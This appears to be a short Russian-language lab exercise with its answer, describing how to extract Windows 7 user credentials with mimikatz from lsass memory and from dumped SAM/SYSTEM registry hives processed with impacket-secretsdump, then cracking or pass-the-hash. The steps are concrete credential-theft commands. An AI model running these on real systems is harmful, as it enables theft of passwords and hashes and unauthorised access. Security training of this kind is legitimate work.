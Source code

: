 С использованием mimikatz получить учетные данные пользователей на образе windows 7:
 - Из адресного пространства процесса lsass
 - Из реестра
Какие привилегии нужны для этой атаки? Что может помешать достать креды из памяти lsass и какие команды помогут это понять?


Задача 1:  
Для атаки нужны права администратора, а также включенные привилегии debug. Помешать достать креды может "защита от манипуляций с памятью"   
1. Чтобы получить данные из процесса lsass требуется:  
1.1 запустить mimikatz в консоли от админа  
1.2 включить привилегию debug ( privilege::debug )  
1.3 Воспользоваться командой sekurlsa::logonpassword для получение хеша пароля   
1.4 В дальнейшем можно расшифровать хеш или использовать атаку pth  
2. Чтобы получить данные  из реестра требуется:  
2.1 Запустить консоль от администратора   
2.2 получить дампы реестра с помощью reg save hklm\system C:/tools/system.hiv и reg save hklm\sam C:/tools/sam.hiv  
2.3 В дальнейшем дампы нужно переместить на основную машину (Kali) и воспользоваться командой impacket-secretsdump -sam sam.hiv -system sys.hiv LOCAL для изучение дампа реестра

